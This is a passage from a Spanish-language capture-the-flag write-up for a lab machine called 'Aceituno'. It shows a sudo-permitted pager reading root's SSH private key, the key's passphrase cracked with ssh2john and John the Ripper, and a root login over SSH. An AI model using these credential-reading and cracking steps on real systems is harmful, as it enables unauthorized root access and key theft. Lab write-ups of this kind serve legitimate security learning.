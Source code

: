 De acuerdo con **ChatGPT**, tan solo hay que indicar la ruta del archivo a ver, así que tratemos de ver la llave privada del **Root**:
```bash
aceituno@Aceituno:~$ sudo /usr/bin/most /root/.ssh/id_rsa
```

<p align="center">
<img src="/assets/images/THL-writeup-aceituno/Captura8.png">
</p>

Excelente, la podemos ver.

Vamos a copiarla y a guardarla para poder crackearla.

Una vez que lo hagas, usaremos **ssh2john** para obtener el hash:
```bash
ssh2john id_rsa > hash
```

Y lo crackeamos con **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*********         (id_rsa)     
1g 0:00:00:57 DONE (2025-04-01 14:37) 0.01740g/s 35.49p/s 35.49c/s 35.49C/s blessed1..paris
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Bien, tenemos la frase de esta llave privada.

Usémosla para poder loguearnos como **Root**:
```bash
chmod 600 id_rsa
.
ssh -i id_rsa root@192.168.1.220
Enter passphrase for key 'id_rsa': 
Linux Aceituno 6.1.0-20-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.85-1 (2024-04-11) x86_64
...
Last login: Sun Apr 28 12:08:02 2024
root@Aceituno:~# 
root@Aceituno:~# whoami
root
```
Ya somos **Root**.
